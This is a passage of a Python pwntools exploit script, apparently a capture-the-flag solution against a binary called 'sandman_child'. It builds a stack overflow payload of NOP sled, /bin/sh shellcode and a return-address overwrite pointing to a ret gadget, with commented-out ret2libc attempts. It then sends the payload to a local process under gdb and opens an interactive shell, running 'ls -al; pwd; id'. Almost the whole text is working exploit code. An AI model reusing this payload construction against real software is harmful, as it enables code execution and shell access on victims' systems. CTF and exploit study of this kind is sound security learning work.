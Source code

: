 ```python
    #system = libc_base + offset_system
    #log.info("Computed system addr at: " + hex(system))

    #magic_gadget_offset = 0x0003f76a  # on arch
    #magic = libc_base + magic_gadget_offset
    #log.info("Computed magic /bin/sh gadget at: " + hex(magic))

    # ok apparently all the this was for nothing, as there is another pointer
    # to our buffer on the stack directly after our return address, so we can
    # just return again and jump to our shellcode...
    retgadget = 0x00401174

    sc = shellcraft.amd64.linux.sh()
    pl = asm(sc) + pl
    nop = asm(shellcraft.amd64.nop())
    pl = "http://" + nop * (560 - 8 - len(pl)) + pl

    # return addr overwrite
    #pl += p64(system)
    #pl += p64(magic)
    pl += p64(retgadget)
    log.info("using payload:\n" + hexdump(pl))

    if "\x00" in pl[:-2]:
        log.warn("NULL bytes in payload!")

    pl = pl.rstrip("\x00")
    pl = chr(0xe) + p32(len(pl)) + pl
    return pl


if __name__ == "__main__":
    context.log_level = 'debug'

    vulnbin = "./sandman_child"
    velf = ELF(vulnbin)
    #vp = process(["ltrace", vulnbin])
    #vp = process(["strace", vulnbin])
    vp = process(vulnbin)

    gdb.attach(vp)

    read = int(raw_input("read addr (hex): "), 16)

    vp.send(child_pwn(read))

    vp.sendline("\nls -al; pwd; id")
    vp.clean_and_log()
    vp.interactive()

```
